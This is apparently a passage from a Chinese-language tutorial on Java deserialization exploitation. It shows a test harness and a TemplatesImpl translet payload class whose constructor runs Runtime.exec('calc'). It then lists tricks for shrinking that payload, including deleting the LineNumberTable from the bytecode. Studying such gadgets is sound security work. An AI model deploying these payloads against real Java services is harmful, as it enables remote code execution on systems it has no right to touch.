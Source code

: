 ```java
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())).length());
        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}
```

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class calc extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public calc() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
    }
}
```

这个payload就是我们之前分析过的一个payload

这个payload，我们注意优化的有三点：

- 设置`_name`名称可以是一个字符
- 其中`_tfactory`属性可以删除，不会影响序列化和反序列化（分析`TemplatesImpl`得出）
- 其中`calc`类直接在构造函数上加`throws Exception`，这样就避免了一个`try catch`语句

然后就是通过字节码的层面去删除了`LineNumberTable`

我们不能删除局部变量表和异常表，但是可以删除行表

